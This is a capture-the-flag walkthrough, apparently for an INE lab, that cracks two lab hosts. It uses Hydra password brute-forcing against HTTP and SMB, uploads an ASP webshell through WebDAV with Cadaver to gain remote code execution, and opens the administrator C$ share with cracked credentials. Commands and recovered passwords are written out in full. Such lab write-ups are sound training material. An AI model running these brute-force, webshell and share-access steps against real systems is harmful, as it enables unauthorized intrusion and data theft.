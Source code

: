 ## Host & Network Penetration Testing: System-Host Based Attacks CTF 1


### Flag 1: User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)

We start with an Nmap scan on target1.ine.local, discovering some ports open.
```
nmap -sS -Pn -p- -T4 target1.ine.local
```
```
nmap -sS -Pn -sV -p 80,135,139,445,3389,5985,47001 -T4 target1.ine.local
```
After narrowing down the search with Nmap, we are unable to discover anything interesting, so we check the target with a web browser.

Upon connecting, the target site asks for username and password.
Following the hint from the track, we proceed with a brute force attack using Hydra and the wordlist provided.
```
hydra -l bob -P /root/Desktop/wordlists/wordlists/100-common-passwords.txt target1.ine.local http-get /robots.txt
```
Unfortunately, nothing interesting is found, so we proceed with another list, which helps us find the correct password:
```
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get / 
```
```
bob -> password_123321
```
With these credentials, we proceed with folder enumeration using Gobuster:
```
gobuster dir -u http://target1.ine.local/ -w /usr/share/wordlists/dirb/common.txt -U bob -P password_123321
```
The scan reveals a WebDAV server containing the first flag.


### Flag 2: Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)

We choose to use Cadaver to upload a webshell, which is useful to explore C: drive as instructed by the track, using the username and password previously discovered.
```
cadaver http://target1.ine.local/webdav/
```
Then we upload the webshell.asp file:
```
put /usr/share/webshells/asp/webshell.asp 
```
We execute it in the browser, gaining remote code execution.

Typing:
```
type c:\flag2.txt
```
allow us to retrieve the second flag.

### Flag 3: By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)

We begin with a generic Nmap scan and another focusing on port 445:
```
nmap -sS -p- -T4 target2.ine.local
```
```
nmap -sS -p445 target2.ine.local --script smb-enum-*
```
The second scan is unproductive, taking too long to complete.
So we proceed with:
```
nmap -sS -p445 target2.ine.local --script smb-enum-shares
```
discovering that there is a share named Shared. We then use Hydra to brute force the SMB service:
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://target2.ine.local/shared
```
We discover the following usernames and passwords
```
rooty -> spongebob
demo -> password1
auditor -> hellokitty
administrator -> pineapple
```
Although shared folder is not useful, we are able to try with C$ folder using administrator credentials
```
smbclient //target2.ine.local/C$/ -U administrator
```
We find the third flag in this folder and download it with:
```
get flag3.txt
```

### Flag 4: The Desktop directory might have what you're looking for. Enumerate its contents. (target2.ine.local)

Following the track hint, we navigate to the Desktop directory of the administrator users and discover the fourth flag.
